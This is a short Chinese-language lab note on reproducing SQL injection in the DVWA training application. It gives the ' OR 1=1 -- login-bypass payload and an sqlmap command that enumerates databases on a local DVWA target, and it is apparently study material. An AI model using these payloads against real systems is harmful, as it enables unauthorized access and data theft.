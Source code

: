 # SQL注入
# SQL 注入漏洞复现

## 🌐 靶场环境
- DVWA (Security Level: Low)
- 数据库：MySQL
- 工具：Burp Suite + sqlmap

## 🔍 漏洞原理
用户输入的数据没有经过过滤，直接拼接到 SQL 语句中，导致注入。

## 🛠️ 复现过程
1. 输入 `' OR 1=1 --` 到用户名字段  
2. 成功登录管理员账号

## 🧰 自动化利用
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxx" --dbs 
```
## 📕 参考文献
https://portswigger.net/web-security/sql-injection
